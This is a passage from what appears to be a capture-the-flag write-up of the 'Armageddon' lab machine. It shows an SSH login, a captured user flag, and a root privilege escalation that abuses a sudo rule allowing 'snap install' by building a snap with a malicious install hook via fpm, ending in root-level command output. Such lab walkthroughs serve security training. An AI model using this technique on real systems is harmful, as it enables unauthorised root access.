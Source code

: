 We can use SSH to connect to the machine as this user and grab the first flag.

    └─$ ssh brucetherealadmin@10.129.48.89
    brucetherealadmin@10.129.48.89's password:
    Last login: Sat May 15 10:05:01 2021 from 10.10.14.17
    [brucetherealadmin@armageddon ~]$ id
    uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    [brucetherealadmin@armageddon ~]$ ls
    user.txt
    [brucetherealadmin@armageddon ~]$ cat user.txt
    bcb2084548c43514b5451c42c480bf9f

# Root

We take a look at our privileges and found that we can run `snap install` as
`root`.

    [brucetherealadmin@armageddon ~]$ sudo -l
    Matching Defaults entries for brucetherealadmin on armageddon:
        !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
        env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
        secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

    User brucetherealadmin may run the following commands on armageddon:
        (root) NOPASSWD: /usr/bin/snap install *

According to [gtfobins](https://gtfobins.github.io/gtfobins/snap/) we can easily
use that to run commands as root using
[fpm](https://github.com/jordansissel/fpm) to create a snap file.

We install fpm on our kali box `sudo gem install --no-document fpm`.
We build a snap on our machine using `fmp` and the command on [gtfobins](https://gtfobins.github.io/gtfobins/snap/).

    :::text
    └─$ COMMAND=id
    cd $(mktemp -d)
    mkdir -p meta/hooks
    printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
    chmod +x meta/hooks/install
    fpm -n test -s dir -t snap -a all meta

Using `scp` we upload the snap file to the box and "install" it.

    :::text
    [brucetherealadmin@armageddon tmp.Y8rUvO3A58]$ sudo /usr/bin/snap install test_1.0_all.snap --dangerous --devmode
    error: cannot perform the following tasks:
    - Run install hook of "test" snap if present (run hook "install": uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0)
